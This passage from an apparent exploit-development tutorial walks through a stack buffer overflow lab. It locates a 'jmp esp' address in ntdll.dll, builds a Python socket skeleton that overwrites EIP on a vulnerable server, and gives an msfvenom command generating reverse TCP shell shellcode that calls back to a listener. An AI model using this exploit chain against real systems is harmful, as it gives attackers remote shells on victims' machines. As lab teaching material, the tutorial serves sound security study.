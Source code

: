 To find a memory address containing `jmp esp` instruction, we can simply use Ctrl+F `jmp esp` in xdbg and discover that `jmp esp` is located in `7798BD1B` inside `ntdll.dll`:

![Locating memory address that contains JMP ESP instruction](../../../.gitbook/assets/finding-jmp-esp.gif)

{% hint style="warning" %}
Memory address for instruction set `jmp esp` on your system may be different as ntdll.dll is updated between different Windows versions.
{% endhint %}

{% hint style="info" %}
Remember the memory address of `jmp esp` - `7798BD1B` - we will need it soon for the exploit code.
{% endhint %}

## Exploit Skeleton

Let's now build a quick python exploit code skeleton:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"RETN"

# shellcode
buf += b"SHELLCODE"

# send payload
sock.send(buf)
sock.close()
```

...and execute it against the vulnerable server to confirm everything still works as expected and that we see:

* the `RETN` value in the EIP register&#x20;
* the string `SHELLCODE` next to the `RETN`

![Python exploit skeleton confirmed that everything works as expected](<../../../.gitbook/assets/image (823).png>)

### Generating Shellcode

Let's generate a shellcode for a simple reverse tcp shell (it will connect back to `192.168.99.2:443`) for python:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python
```
